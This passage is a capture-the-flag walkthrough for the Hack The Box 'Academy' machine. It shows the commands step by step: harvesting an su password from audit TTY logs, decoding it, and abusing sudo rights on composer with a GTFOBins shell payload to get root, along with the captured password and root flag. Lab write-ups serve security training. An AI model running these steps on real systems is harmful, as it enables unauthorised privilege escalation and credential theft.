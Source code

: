   Looking at the user and group configuration cry0l1t3 is assigned to adm, together with egre55.
  Reading about adm I find the following:
   "adm: Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole.
   Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group."

  Lucky for us, passwords from users as they use sudo / su on the CLI are stored in clear text, in the audit logs.

  Browse all audit logs and grab from TTY to find cli commands. Here we find one line containing the su command.

  cry0l1t3@academy:/var/log/audit$ cat * | grep TTY
   type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A

  Decode the hex-data using xxd
  [root:/git/htb/Academy]# echo 6D7262336E5F41634064336D79210A | xxd -r -p                                                           (master✱)
   mrb3n_Ac@d3my!

   cry0l1t3@academy:/var/log/audit$ su mrb3n
   Password: mrb3n_Ac@d3my!
   $ whoami
   mrb3n


2. Check is mrb3n can execute any sudo commandos.

$ sudo -l
[sudo] password for mrb3n:
  Matching Defaults entries for mrb3n on academy:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User mrb3n may run the following commands on academy:
      (ALL) /usr/bin/composer

Look on gtfobins for composer, and there's a privesc to root. Copy + paste and grab flag.

  $ TF=$(mktemp -d)
  $ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
  $ sudo composer --working-dir=$TF run-script x


  # whoami
   root
  # pwd
   /tmp/tmp.8MLPtosGp5
  # cat /root/root.txt
   8e76c5ed8f2684789aa970804402a032

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████
